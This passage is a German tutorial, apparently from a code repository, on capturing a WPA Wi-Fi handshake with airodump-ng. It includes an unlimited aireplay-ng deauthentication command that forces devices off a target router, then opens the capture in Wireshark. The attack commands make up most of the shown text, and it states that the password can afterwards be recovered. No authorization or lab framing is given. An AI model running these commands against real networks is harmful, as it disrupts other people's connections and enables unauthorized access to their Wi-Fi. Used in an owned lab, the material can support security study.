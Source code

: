 - so würde ein gewünschter output aussehen:

		
		SSID	AUTH		ENC		CH	BSSID (MAC)	MB

		Name	Verifizierung	z.B.WPA2	Zahl	MAC-Aresse	Zahl
		


- `mit STRG+C` beenden


- Mit diesem Befehl kann ein bestimmtes WLAN beobachtet werden:
```
$ sudo airodump-ng wlan0mon -d *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS*
```


- Nun muss ein belibiges Gerät mit dem WLAN verbunden werden, damit Pakete übertragen werden:
(Es sollte eine Packetanzahl unter dem Punkt "Lost" zu sehen sein, während dem Aufbauen der WLAN Verbindung)
```
$ sudo airodump-ng -w hack1 -c 1 --bssid *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS* wlan0mon
```


- Optional: Um zu erzwingen, dass sich Geräte mit dem WLAN-ROUTER neu verbinden müssen:
```
$ sudo aireplay-ng --deauth 0 -a *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS* wlan0mon
```


- Wenn alles korrekt funktioniert hat und richtig ausgeführt wurde, sollten nun die Pakete abgefangen sein und das Passwort kann ermittelt werden.


----------------------------------------------------------------------------------------------------------------------------------------------------


## D. Wireshark

In dem eigen angelegten Ordner:

```
$ ls
```
```
$ wireshark hack1-01.cap
```


----------------------------------------------------------------------------------------------------------------------------------------------------


## E. stop monitor mode:

```
$ iwconfig
```
```
$ sudo airmon-ng stop wlan0mon
```
